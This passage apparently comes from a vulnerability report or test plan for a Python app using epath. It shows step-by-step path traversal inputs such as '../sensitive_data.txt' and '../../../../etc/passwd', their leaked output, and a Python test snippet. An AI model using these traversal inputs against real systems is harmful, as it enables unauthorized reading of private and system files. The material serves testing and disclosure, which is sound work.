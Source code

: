         if __name__ == "__main__":
          app.run(main)
        ```
    2.  Create a sensitive file, e.g., `sensitive_data.txt` in the same directory as `my_app.py` with some secret content:

        ```
        # File: sensitive_data.txt
        This is sensitive information.
        ```
    3.  As an attacker, run `my_app.py` with a crafted `--input_path` flag to attempt path traversal:

        ```sh
        python my_app.py --input_path='../sensitive_data.txt'
        ```
    4.  If the application is vulnerable, the output will display the content of `sensitive_data.txt`, demonstrating successful path traversal and unauthorized access.

        ```text
        File content:
        This is sensitive information.
        ```
    5.  A more sophisticated attacker might try to access system files if the application has sufficient permissions and is running in an environment where such files are accessible:

        ```sh
        python my_app.py --input_path='gs://<your-bucket>/../../../../etc/passwd' # For cloud storage
        ```
        or
        ```sh
        python my_app.py --input_path='../../../../etc/passwd' # For local file system if running locally
        ```
        If successful, this would further demonstrate the path traversal vulnerability with potentially more severe impact depending on the accessed files and the application's environment.
    6.  Alternatively, for testing `epath.Path` constructor directly:
        *   Setup: Create a directory `test_dir` in the temporary directory and a file `sensitive.txt` inside `test_dir`.
        *   Vulnerability Test:
            ```python
            import epath
            import os

            base_dir = 'test_dir' # Or any directory your application uses as base
            user_input_path = '../test_dir/sensitive.txt' # Malicious user input
            epath_obj = epath.Path(base_dir) / user_input_path
            try:
                with epath_obj.open('r') as f:
                    content = f.read()
                    print("Successfully read content:", content) # Vulnerability if this succeeds
            except FileNotFoundError:
                print("Access denied as expected.") # Mitigation if this is reached
            ```
        *   Execute the Python code and check for successful reading of `sensitive.txt`.
        *   Cleanup: Remove the `test_dir` and `sensitive.txt` file.